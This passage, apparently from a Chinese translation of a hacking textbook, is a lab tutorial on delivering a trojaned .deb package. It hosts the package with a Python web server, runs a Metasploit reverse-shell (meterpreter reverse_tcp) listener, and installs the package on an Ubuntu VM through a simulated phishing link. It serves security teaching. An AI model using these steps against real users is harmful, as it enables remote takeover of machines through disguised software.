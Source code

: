 #### ***托管木马***

攻击者可以将我们刚刚创建的木马托管在 GitHub 或伪造的网站上。在这一部分，我们将在我们的 Kali Linux 虚拟机上托管木马，并通过本地 Web 服务器提供服务。确保你处于包含木马的文件夹中，并运行以下命令：

```
kali@kali:~/Desktop/Malware/trojans$ sudo python3 -m http.server 80
```

接下来，你需要启动攻击者服务器，监听来自植入物的连接。我们可以不再像之前那样一步一步执行命令，而是在新终端中将所有命令放在一行中执行：

```
kali@kali:~$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/

			 x86/meterpreter/reverse_tcp; set LHOST <Kali IP address>; set LPORT

			 8443; run; exit -y"
```

现在我们有两个服务器在运行：一个提供植入物，另一个接收来自所有已安装植入物的连接。接下来我们必须做的就是通过将植入物下载到我们的 Ubuntu 虚拟机上来测试木马。

#### ***下载感染文件***

启动 Ubuntu 虚拟机，然后通过复制并粘贴以下链接到浏览器中来模拟用户点击电子邮件链接，确保指定你的 Kali Linux 机器的 IP 地址：*http://<Kali IP 地址>/mailTrojan.deb*。

在出现下载窗口时，选择**保存文件**选项，如图 10-5 所示。

![image](img/ch10fig05.jpg)

*图 10-5：下载* mailTrojan.deb *文件*

这将把*.deb*安装文件保存到你的*下载*文件夹。打开文件资源管理器中的*下载*文件夹，然后通过右键点击文件并选择**打开方式** ▶ **安装软件**来安装文件。

你可能会想，真实用户真的会做这些操作吗？但想想你通过运行`sudo apt-get`安装的所有软件包。你能确保这些*.deb*文件中没有植入物吗？一旦你启动了包管理器，应该会看到图 10-6 中的界面。选择**安装**。
